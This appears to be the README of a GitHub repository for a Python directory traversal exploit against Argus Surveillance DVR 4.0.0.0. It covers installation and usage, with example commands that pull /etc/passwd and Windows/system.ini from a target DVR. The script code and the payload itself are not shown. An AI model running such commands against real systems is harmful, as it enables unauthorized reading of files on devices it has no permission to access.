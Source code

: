# argus-dvr-traversal

# Argus Surveillance DVR 4.0.0.0 - Directory Traversal Exploit

## Description
This script exploits a directory traversal vulnerability in Argus Surveillance DVR 4.0.0.0. The vulnerability allows an attacker to access arbitrary files on the server by manipulating the URL.

## Requirements
- Python 3.x
- `requests` library

## Installation
1. **Clone the repository or download the script:**

    ```sh
    git clone https://github.com/t4ps3c/argus-dvr-traversal.git
    cd argus-dvr-traversal
    ```

2. **Install the `requests` library if not already installed:**

    ```sh
    pip install requests
    ```

## Usage
1. **Run the script with the following command:**

    ```sh
    python3 argus-dvr-traversal.py <TARGET_IP> <TARGET_PORT> <TARGET_FILEPATH>
    ```

    - `<TARGET_IP>`: The IP address of the target DVR.
    - `<TARGET_PORT>`: The port on which the DVR's web interface is running (typically 80 or 8080).
    - `<TARGET_FILEPATH>`: The file path you want to access on the target system.

2. **Example:**

    For Unix
    ```sh
    python3 argus-dvr-traversal.py 192.168.1.100 8080 /etc/passwd
    ```
    This command attempts to retrieve the `/etc/passwd` file from the DVR at `192.168.1.100` on port `8080`.

    For Windows
    ```sh
    python3 argus-dvr-traversal.py 192.168.1.100 8080 Windows/system.ini
    ```
    This command attempts to retrieve the `Windows/system.ini` file from the DVR at `192.168.1.100` on port `8080`.

## How It Works
The script constructs a URL with the directory traversal payload and sends an HTTP GET request to the target DVR. If the request is successful, the content of the targeted file is displayed.
